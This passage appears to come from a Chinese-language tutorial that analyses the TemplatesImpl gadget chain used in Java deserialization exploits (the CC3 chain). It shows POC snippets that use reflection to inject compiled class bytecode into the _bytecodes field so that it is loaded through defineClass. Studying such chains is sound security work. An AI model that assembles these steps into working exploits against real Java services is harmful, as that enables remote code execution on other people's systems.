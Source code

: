 ```java
private byte[][] _bytecodes = null;
```

然后再分析两处代码，是最后利用重写的`defineClass`方法的位置

```java
//一
Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
//二
_class[i] = loader.defineClass(_bytecodes[i]);
```

现在也应该理解了是怎么一回事了，POC这边传入赋值时应该传入双重数组，但是写的时候值写入一个就可以了，当然也可以写多个

这里是写好了`Test.java`然后编译为字节码文件，最后加载这个类的。

```java
Field bytecodesField = cc3.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("D://Test//Test.class"));
byte[][] codes = {code};
bytecodesField.set(templates, codes);
```

如需传入多个参数，适当修改并增加一维数组。

继续进行，可以看到这里还是需要传入一个参数，去调用`getExternalExtensionsMap`方法，后续不需要管，只需要保证`_tfactory`不为空即可。

![img](img/1667974639914-72a2ecf6-e151-4e62-a604-91aee1b3e683.png)

然后需要查看`_tfactory`的参数类型，可以看到他是一个`transient`关键字修饰的，表示它不参与反序列化。不参与反序列化，传入的值就没有意义，所以需要看他是在哪里被赋值的。
